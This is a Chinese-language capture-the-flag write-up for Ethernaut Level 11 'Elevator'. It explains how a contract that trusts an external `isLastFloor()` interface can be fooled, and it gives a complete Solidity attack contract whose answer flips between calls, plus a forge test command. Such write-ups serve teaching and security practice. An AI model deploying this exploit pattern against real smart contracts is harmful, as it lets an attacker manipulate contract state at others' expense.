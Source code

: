 <div align="center">
<p align="left">(<a href="https://github.com/XuHugo/Ethernaut-Foundry-Solutions/tree/main/solutions">back</a>)</p>

<img src="../imgs/levels/11-elevator.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 11 - Elevator</strong></h1>

</div>
<br>

详细解读文章: [Ethernaut Foundry Solutions | Level 11 - Elevator](https://blog.csdn.net/xq723310/)

## 目录

- [目录](#目录)
- [目标](#目标)
- [漏洞](#漏洞)
- [解答](#解答)
- [要点](#要点)

## 目标

目的是使电梯达到最顶层，即使题目合约的 top 为 true
<img src="../imgs/requirements/11-elevator-requirements.webp" width="800px"/>

## 漏洞

本关卡重在考验，我们对智能合约接口的认知程度。接口定义函数签名，但不定义它们的逻辑。这是一种无需知道实现细节就可以与其他合约交互的方法。

在本例中，我们可以创建Building实例并使用它来定义我们版本的`isLastFloor()`函数。

```javascript
function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (!building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
```

在`goTo`函数中，`isLastFloor` 被调用两次。第一次必须返回`false`，否则无法进入修改top的逻辑；第二次使用的时候，你是否还是以为会和第一次一样，返回`false`呢？兄弟，做人不要太老实啊！我们可以通过创建一个`isLastFloor()`来利用这一点，它将第一次返回`false`，第二次返回`true`。

这将使我们能够到达大楼的顶部。

## 解答

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract Attack is Building {
    Elevator instance;
    bool top = false;

    constructor(address fb) {
        instance = Elevator(fb);
    }

    function isLastFloor(uint _floor) external returns (bool) {
        top = !top;
        return !top;
    }

    function attack(uint _floor) public {
        instance.goTo(_floor);
    }
}
```

你可以在项目的根目录执行以下命令，进行验证；

```bash
forge test --match-contract  ElevatorTest -vvvv
```

## 要点

- 接口是一种无需知道实现细节就可以与其他合约交互的方式...
- ... 所以永远不要盲目相信他们!

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
